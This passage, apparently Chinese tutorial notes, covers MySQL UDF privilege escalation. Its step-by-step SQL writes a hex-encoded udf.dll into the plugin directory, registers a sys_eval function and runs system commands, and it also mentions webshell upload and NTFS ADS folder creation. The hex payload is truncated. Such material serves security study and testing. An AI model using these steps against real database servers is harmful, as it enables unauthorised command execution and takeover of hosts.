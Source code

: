 - **一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）**

- 在 udf.dll 文件中，我定义了名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。但是如果我现在就打开 MySQL 命令行，使用 select sys_eval('whoami')；的话，系统会返回 sys_eval() 函数未定义。因为我们仅仅是把 udf.dll 放到了 lib/plugin 目录下，并没有引入。类似于面向对象编程时引入包一样，如果没有引入包，那么这个包里的类你是用不了的。

- 所以，我们应该把 udf.dll 中的自定义函数引入进来。看一下官方文档中的语法：

    `create function sys_eval returns string soname 'udf.dll';`

- 只有两个变量:

    - 一个是     function_name（函数名），我们想引入的函数是 sys_eval。
    - 还有一个变量是     shared_library_name（共享包名称），即 udf.dll 。

- 至此我们已经引入了 sys_eval 函数，下面就可以使用了。

    这个函数用于执行系统命令，用法如下：

    `select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数`

    `select sys_eval('whoami'); #使用系统命令`

- 当     MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。

- 当     MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下     (lib\plugin目录默认不存在，需自行创建)。

- **将dll上传方式推荐几种**:

    - 通过webshell上传
    - 以hex方式直接上传

- **UDF提权步骤**:

    - **查看 secure_file_priv  的值**,`show global variables like 'secure%'`;我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

    - **查看系统架构以及plugin目录**

        ```
        show variables like '%compile%'; #查看主机版本及架构
        show variables like 'plugin%'; #查看 plugin 目录
        
        这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)
        ```

    - **将dll文件写入plugin目录,并且创建函数**

        ```sql
        1) create table temp(data longblob);
        2) insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
        3) update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
        4) select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
        5) create function sys_eval returns string soname 'udf.dll'; #创建函数sys_eval
        执行select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll"; 时有可能会出现以下错误，因为当MySQL大于5.1时，默认是没有 lib\plugin 目录的。而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file
        